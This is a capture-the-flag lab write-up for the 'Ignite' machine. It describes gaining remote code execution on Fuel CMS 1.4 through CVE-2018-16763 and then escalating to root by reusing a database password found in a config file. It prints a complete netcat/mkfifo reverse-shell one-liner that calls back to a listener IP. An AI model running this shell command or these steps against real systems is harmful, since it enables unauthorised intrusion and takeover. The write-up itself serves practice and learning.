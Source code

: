 # Ignite

### Root it!
Nmap scan shows only port 80 open. Visiting this web page, it is powered by `Fuel CMS 1.4`. Looking online this version is vulnerable to RCE (CVE-2018-16763) and I found an exploit [here](https://github.com/n3m1sys/CVE-2018-16763-Exploit-Python3/blob/master/exploit.py).
I slightly modified the exploit code so that you don't have to have an open proxy on port 8080 like burpsuite, but you can just run it from the command line. The code can be found in `exploit.py` of this folder.<br />
So now I have RCE: <br />
![image](https://github.com/user-attachments/assets/833ab8a5-0e61-46eb-ae2d-686e691ca16d)<br />
So I'm going to use it to spawn a reverse shell. Open a netcat listener and send the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f` (adapt the command to your IP and port).<br />
Next, [stabilize the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal).
This was enough to get the first flag: <br />
![image](https://github.com/user-attachments/assets/4b9003aa-0671-4938-bc0a-2de86f63ca8f)<br />
Running linpeas I found some stuff. First of all, a set of DB credentials inside `/var/www/html/fuel/application/config/database.php`:<br />
![image](https://github.com/user-attachments/assets/dcd165aa-5bb3-46f2-9d72-7a346f40b4be)<br />
These are the credentials to log into root's mysql account. But, funny enough, `mememe` it's also the password to log into root. Run `su` and provide the found password to become root and get the second flag.<br /><br />
Lesson learned: I spent an hour trying to figure out how to perform privesc, running linpeas, trying some CVE's, checking vulnerable software versions, manually enumerating configuration files...<br />
At the end the path was much simpler than that, and I learned that some times a misconfigured system can use the same password for multiple purposes. Next time I should save every possible set of credentials I can find and use them on every service that requires authentication. 

